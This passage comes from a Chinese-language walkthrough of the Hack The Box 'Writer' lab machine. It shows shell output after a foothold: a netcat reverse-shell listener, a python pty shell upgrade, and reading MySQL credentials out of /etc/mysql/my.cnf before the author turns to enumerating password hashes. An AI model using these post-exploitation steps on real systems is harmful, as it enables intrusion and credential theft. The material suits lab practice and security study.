 在我们继续之前升级终端:

```
www-data@writer:/$ which python
which python
www-data@writer:/$ which python3
which python3
/usr/bin/python3

www-data@writer:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'

www-data@writer:/$ ^Z
zsh: suspended  nc -nlvp 1337
┌──(root💀kali)-[~/htb/writer]
└─# stty raw -echo; fg
[1]  + continued  nc -nlvp 1337

www-data@writer:/$ export TERM=xterm
www-data@writer:/$ stty rows 52 cols 237
```

环顾四周，我在/etc 中找到了一个 MySQL 文件夹:

```
www-data@writer:/etc/mysql$ ls -lsa
4 drwxr-xr-x   2 root root 4096 May 18 15:51 conf.d
4 -rwxr-xr-x   1 root root 1620 May  9 18:20 debian-start
4 -rw-------   1 root root  261 May 18 15:51 debian.cnf
4 -rw-r--r--   1 root root  972 May 19 12:34 mariadb.cnf
4 drwxr-xr-x   2 root root 4096 May 18 15:51 mariadb.conf.d
0 lrwxrwxrwx   1 root root   24 May 18 15:51 my.cnf -> /etc/alternatives/my.cnf

www-data@writer:/etc/mysql$ cat my.cnf
<SNIP>

[client]
database = dev
user = djangouser
password = <HIDDEN>
default-character-set = utf8
```

# MySQL 枚举

我使用 creds 枚举 MySQL 服务器来查找用户散列:
